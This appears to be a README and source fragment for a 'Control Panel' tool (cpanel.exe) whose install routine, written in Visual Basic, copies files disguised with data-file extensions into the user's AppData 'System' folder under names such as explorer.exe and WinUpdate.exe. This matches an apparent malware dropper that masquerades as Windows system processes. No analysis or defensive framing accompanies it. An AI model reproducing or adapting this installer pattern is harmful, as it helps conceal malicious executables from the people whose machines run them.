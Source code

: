 Control Panel
=========================

```
cpanel.exe /local - Shows config from local files in "./Files" directory
cpanel.exe /install - Executes install NPS
```

### Install Process

	FileCopy App.Path & "\Files\NILS.ISS", GetSpecialFolderA(CSIDL_APPDATA) & "System\explorer.exe"   'explorer.exe
	FileCopy App.Path & "\Files\AS4T.CVF", GetSpecialFolderA(CSIDL_APPDATA) & "System\WinUpdate.exe"     'winUpdate.exe
	FileCopy App.Path & "\Files\files.CAB", GetSpecialFolderA(CSIDL_APPDATA) & "System\cmsetacl.tmp"
	FileCopy App.Path & "\Files\tafr.INL", GetSpecialFolderA(CSIDL_APPDATA) & "System\default.MCP"